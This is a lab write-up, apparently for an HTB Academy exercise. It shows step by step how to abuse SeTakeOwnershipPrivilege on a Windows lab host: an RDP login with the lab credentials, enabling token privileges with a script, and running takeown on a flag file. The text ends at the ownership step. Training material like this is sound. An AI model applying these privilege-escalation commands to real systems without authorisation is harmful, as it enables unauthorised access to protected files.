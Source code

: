 ## 🎯 HTB Academy Lab Solution

### Lab Environment
- **Target**: `10.129.43.43` (ACADEMY-WINLPE-SRV01)
- **Credentials**: `htb-student:HTB_@cademy_stdnt!`
- **Access Method**: RDP
- **Objective**: Leverage SeTakeOwnershipPrivilege over `C:\TakeOwn\flag.txt`

### Detailed Step-by-Step Solution

#### 1. RDP Connection
```bash
# Connect via RDP
xfreerdp /v:10.129.43.43 /u:htb-student /p:'HTB_@cademy_stdnt!'
```

#### 2. Privilege Verification
```cmd
# Open elevated PowerShell (Run as Administrator)
# Enter htb-student credentials when prompted

PS C:\> whoami /priv

# Locate SeTakeOwnershipPrivilege in output:
SeTakeOwnershipPrivilege      Take ownership of files or other objects    Disabled
```

#### 3. Privilege Activation
```powershell
# Download/locate Enable-Privilege.ps1 script
# If not available, use manual method or download from GitHub

# Enable all token privileges
Import-Module .\Enable-Privilege.ps1
.\EnableAllTokenPrivs.ps1

# Verify activation
PS C:\> whoami /priv
# Confirm SeTakeOwnershipPrivilege shows as "Enabled"
```

#### 4. Target File Analysis
```powershell
# Examine target file
Get-ChildItem -Path 'C:\TakeOwn\flag.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={(Get-Acl $_.FullName).Owner}}

# Check directory structure
cmd /c dir /q 'C:\TakeOwn\'
```

#### 5. File Ownership Takeover
```cmd
# Take ownership of flag.txt
takeown /f 'C:\TakeOwn\flag.txt'

# Expected success message:
SUCCESS: The file (or folder): "C:\TakeOwn\flag.txt" now owned by user "WINLPE-SRV01\htb-student"
```
